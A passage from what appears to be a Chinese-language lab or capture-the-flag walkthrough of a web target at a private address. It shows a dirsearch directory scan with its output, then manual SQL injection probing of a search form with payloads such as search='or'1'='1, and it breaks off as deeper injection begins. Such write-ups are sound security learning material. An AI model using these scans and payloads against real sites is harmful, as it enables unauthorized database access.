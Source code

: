 
## web渗透

1. 访问主页，网站指纹识别不是知名`CMS`
    
    ![image.png](image%2046.png)
    
    - `Display All Records` 页面是所有用户的信息
    - `Search` 为搜索页面，存在搜索框
    - `Manage` 是登陆页面
2. 扫描网站目录
    
    ```python
    dirsearch -u 192.168.75.180 -x 403,404
    //
    [12:24:00] Starting:                                                                                                                                                                                              
    [12:24:22] 200 -    0B  - /config.php                                       
    [12:24:23] 301 -  314B  - /css  ->  http://192.168.75.180/css/              
    [12:24:25] 200 - 1001B  - /display.php                                      
    [12:24:31] 301 -  319B  - /includes  ->  http://192.168.75.180/includes/    
    [12:24:31] 200 -  408B  - /includes/
    [12:24:35] 302 -    0B  - /logout.php  ->  manage.php                       
    [12:24:36] 200 -  548B  - /manage.php                                       
    [12:24:48] 200 -  485B  - /search.php      
    ```
    
3. `Search` 为搜索页面，可能存在`SQL`注入，抓包修改`POST`参数
    - 尝试闭合
        
        ```python
        search=0' # 无结果
        search='or'1'='1 # 结果出来了，是Display All Records的结果
        ```
        
        确认存在注入
        
    - 继续注入（其实可以用`sqlmap`注入）
        